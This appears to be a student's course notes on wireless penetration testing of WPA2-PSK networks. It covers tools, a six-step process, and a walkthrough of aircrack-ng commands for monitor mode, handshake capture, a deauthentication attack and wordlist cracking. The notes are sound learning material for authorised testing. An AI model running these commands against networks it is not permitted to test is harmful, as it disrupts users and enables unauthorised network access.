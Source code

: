# Wireless Penetration Testing Overview
What is this?
- assessment of a wireless network
	- WPA2 PSK  >>>> we will ONLY focus on this for this course
	- WPA2 enterprise >> hard to set up, this can be a course on its own
- activities performed
	- evaluating strength of PSK
	- reviewing nearby networks
	- assessing guest networks
	- checking network access

Tools we use:
- wireless card (alfa) >> inject and listen to packets
	- get one with 5 and 2.4 compatibility 
- router (tp-link)
- laptop

❗️ Process:
1. Place - place wireless car into monitor mode
2. Discover - discover information about network: channel, BSSID
3. Select - select network and capture data
4. Perform - perform deauth attack
5. Capture - capture WPA handshake
6. Attempt - attempt to crack the handshake

# WPA PS2 Exploit Walkthrough
- make sure wireless card is connected, in Vmware:
	- removable devices > (device name) > connect
- check in terminal >> iwconfig // IP
- monitor mode: 
```bash
airmon-ng check kill
airmon-ng start wlan0 #check and use interface of wireless card
airodump-ng wlan0mon #detecing wireless devices, PWR -1 is close, Beacons = activity
airodump-ng -c 6 --bssid [mac of access point] -w capture wlan0mon # -c = channel/CH number, -w = file (capture)

#wait for handshake
```
- can speed up process with a deauth to capture handshake:
```bash
aireplay-ng -0 1 -a [BSSID] -c [STATION] wlan0mon  # -0 = dauth, 1 = times to run, -a (MAC), -c (STATION)
```
- don't deauth same client over and over, be patient and rotate until handshake captured
- after handshake obtained, analyze .cap file
```bash
ls capture*
aircrack-ng -w wordlist.txt -b [MAC] [capture file] #use aircrack with wordlist to crack
```
